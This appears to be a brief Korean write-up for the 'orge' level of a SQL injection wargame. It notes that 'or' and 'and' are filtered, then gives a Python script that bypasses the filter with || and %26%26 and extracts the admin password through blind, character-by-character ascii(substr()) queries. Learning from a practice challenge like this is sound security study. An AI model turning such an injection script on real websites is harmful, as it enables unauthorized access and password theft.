

# orge

or과 and가 필터링 되고 있다.   
<br/>


```
import requests

headers = {'Cookie': 'PHPSESSID=gk0vg8b5rmcdluigna439fabdq'}
url = 'https://los.rubiya.kr/chall/orge_bad2f25db233a7542be75844e314e9f3.php?'

pw= ''
for i in range(1, 9):
	for j in range(48,123):
		url = 'https://los.rubiya.kr/chall/orge_bad2f25db233a7542be75844e314e9f3.php?'
		value = "pw=aa' || id='admin' %26%26 ascii(substr(pw,"+ str(i) +",1))="+ str(j) +"%23"
		url += value
		response = requests.get(url, headers=headers)
		print chr(j)
		if "<h2>Hello admin</h2>" in response.text:
			pw += chr(j)
			print '[+] find : ' + chr(j)
			break

print '[*] Password : ' + pw
```   


